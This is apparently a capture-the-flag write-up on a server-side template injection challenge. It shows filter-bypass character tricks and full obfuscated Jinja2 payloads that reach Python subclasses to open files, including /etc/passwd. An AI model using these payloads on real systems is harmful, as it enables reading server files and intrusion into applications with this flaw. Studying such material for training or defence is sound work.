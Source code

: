 # Discovery of SSTI vuln:
```
http://challenge2.lagncrash.com:17654/{{7*7}}
```
![][./Pasted image 20210312172234.png]
Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
<br>
<br>
<br>

# Getting bypass filter codes:
```
[[]|map|string|list][0][0] = <
[[]|map|string|list][0][42] = >
[[]|map|string|list][0][20] = _
[[g]|string|list][0][13] = '
[[g]|string|list][0][7] = .
```

<br>
<br>
<br>

# Decided to try the payload:
Payload:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['fort', [1|float|string|list][0][1], 'py']|join,'r')|attr('read')() }}
```
Changed to /etc/passwd:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['/etc/passwd','r')|attr('read')() }}
```
![][./Pasted image 20210312172828.png]
<br>
<br>
<br>
Ditching start from scratch to just get flag.txt
![][./Pasted image 20210312172909.png]

Reference: https://fireshellsecurity.team/asisctf-fort-knox/ (All the techniques)
Reference: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ (Changing the techniques to do stuff)